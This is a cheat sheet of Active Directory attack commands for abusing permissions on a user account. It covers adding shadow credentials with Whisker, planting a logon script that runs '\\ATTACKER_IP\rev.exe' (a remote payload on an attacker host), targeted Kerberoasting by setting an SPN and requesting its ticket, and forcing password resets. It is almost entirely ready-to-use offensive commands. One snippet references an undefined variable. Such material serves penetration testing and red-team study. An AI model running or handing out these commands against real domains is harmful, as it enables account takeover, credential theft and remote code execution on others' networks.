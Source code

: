 # DACL Attacks on a user

## 1) WriteProperty

### ShadowCredentials

    Whisker.exe add /target:<target> /domain:domain.local /dc:dc.domain.local /path:C:\path\to\file.pfx /password:"Password123!"

### Logon Script

##### PowerView

    Set-DomainObject <target> -Set @{'mstsinitialprogram'='\\ATTACKER_IP\rev.exe'} -Verbose

##### AD module

    Set-ADObject -SamAccountName '<target>' -PropertyName scriptpath -PropertyValue "\\ATTACKER_IP\rev.exe"

### Targeted Kerberoasting

We can then request a ST without special privileges. The ST can then be "Kerberoasted".

##### Verify if the user already has a SPN

    Get-DomainUser -Identity <target> | select serviceprincipalname

##### Using ActiveDirectory module

    Get-ADUser -Identity <target> -Properties ServicePrincipalName | select ServicePrincipalName

#### TIP: New SPN must be unique in the domain

##### Set the SPN

    Set-DomainObject -Identity user -Set @{serviceprincipalname='ops/whatever1'}

##### Using ActiveDirectory module

    Set-ADUser -Identity user -ServicePrincipalNames @{Add='ops/whatever1'} 

##### Request the ticket
    
    Add-Type -AssemblyNAme System.IdentityModel
    New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "ops/whatever1"
    
##### From PowerView

    Request-SPNTicket

## 2) User-Force-Change-Password

With enough permissions on a user, we can change his password

    net user <target> Password123! /domain

##### With PowerView

    $pass = ConvertTo-SecureString "Password123!" -AsPlainText -Force
    $cred = New-Object System.Management.Automation.PSCredential("domain\user1", $pass)
    Set-DomainUserPassword "<target>" -AccountPassword $UserPassword -Credential $cred

